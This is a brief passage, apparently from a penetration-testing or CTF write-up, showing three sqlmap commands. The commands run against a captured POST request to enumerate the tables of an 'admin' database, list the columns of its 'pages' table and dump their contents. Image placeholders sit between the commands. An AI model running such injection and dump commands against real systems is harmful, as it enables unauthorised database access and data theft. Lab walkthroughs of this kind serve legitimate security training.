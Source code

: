 ```bash
sqlmap -r sql_post.txt --batch -D admin --tables
```

![image-20231112202129691](./assets/image-20231112202129691.png)

```bash
sqlmap -r sql_post.txt --batch -D admin -T pages --columns
```

![image-20231112202210151](./assets/image-20231112202210151.png)

```bash
sqlmap -r sql_post.txt --batch -D admin -T pages -C id,pagedata,pagename --dump
```
